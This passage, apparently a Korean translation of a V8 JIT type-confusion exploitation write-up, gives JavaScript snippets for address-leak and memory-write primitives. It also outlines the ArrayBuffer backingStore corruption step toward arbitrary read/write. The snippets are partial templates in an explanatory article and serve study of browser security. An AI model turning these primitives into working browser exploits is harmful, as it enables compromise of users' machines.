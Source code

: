 JIT compiled function에서 컴파일러는 o의 Map 때문에 지역 변수 p를 type X라고 생각하고 type check를 생략한다. 하지만 취약점 때문에 런타임 코드는 실제로 type Y의 object를 전달받고 type confusing을 유발한다.
#### 4.2 - Gaining Memory Read/Write
여기서부터, 추가적인 exploit primitives가 구성될 것이다. 첫 번째로 JavaScript object들의 주소를 leak하는 primitive, 두 번째로는 object의 임의의 field를 덮어쓰는 primitive를 구성한다. 주소 leak은 두 object를 confusion하게 함으로써 가능하다. unboxed double type의 .x property를 fetch 하는 코드를 중간에 해당 영역을 v8의 HeapNumber로 변환하고 이를 caller에게 return하는 컴파일된 코드를 이용하면 된다. 즉, 이 취약점을 이용하면 object에 대한 pointer를 load하고 이를 double형으로 return 할 수 있다.
```
function vuln(o){
    let a = o.inline;
    this.Object.create(o);
    return o.${p1}.x;
}

let arg = makeObj();
arg[p1] = {x : 13.37};
arg[p2] = {y : obj};
vuln(arg);
```
이 코드는 1.9381218278403e-310와 같이 obj의 주소를 caller에게 double형으로 return한다.
<br/><br/>
corruption의 경우, 흔히 그렇듯이 write primitive는 read primitive를 역으로 진행하면 된다. 다음의 코드는 unboxed double이라고 가정되는 property에 write를 한다.
```
function vuln(o){
    let a = o.inline;
    this.Object.create(o);
    let orig = o.${p1}.x;
    o.${p1}.x = ${newValue};
    return orig;
}

let arg = makeObj();
arg[p1] = {x : 13.37};
arg[p2] = {y : obj};
vuln(arg);
```
위의 코드는 double형으로 관리되는 두 번째 object의 .y property를 corrupt한다. 하지만 이 취약점을 더 유용하게 사용하기 위해서는 object의 내부 field를 corrupt해야 한다. 두 번째 primitive는 property의 old value를 읽고 이를 caller에게 return한다. <br/>
이것은 다음과 같은 것을 가능하게 해준다.
- 취약한 코드가 처음으로 실행되고 victim object를 corrupt하는 것을 바로 탐지한다. 
- 나중에 corrupted object를 완전히 복구할 수 있어서 exploit 과정을 깔끔하게 한다.

이 primitive를 이용해서 임의의 memory 영역에 대해 read/write를 할 수 있다.
1. 우선 두 개의 Arraybuffer를 생성한다. (ab1, ab2)
2. ab2의 주소를 leak한다.
3. ab1의 backingStore pointer가 ab2를 가리키도록 corrupt한다. 

즉, 다음과 같은 상황을 만든다.
```
    +-----------------+           +-----------------+
    |  ArrayBuffer 1  |     +---->|  ArrayBuffer 2  |
    |                 |     |     |                 |
    |  map            |     |     |  map            |
    |  properties     |     |     |  properties     |
    |  elements       |     |     |  elements       |
    |  byteLength     |     |     |  byteLength     |
    |  backingStore --+-----+     |  backingStore   |
    |  flags          |           |  flags          |
    +-----------------+           +-----------------+
```
이후에, 임의의 주소에 대한 접근은 ab1에 write를 하고 이어서 ab2에 대한 read/write를 하는 방법으로 ab2의 backingStore pointer를 overwrite함으로써 가능하다.
#### 4.3 - Reflections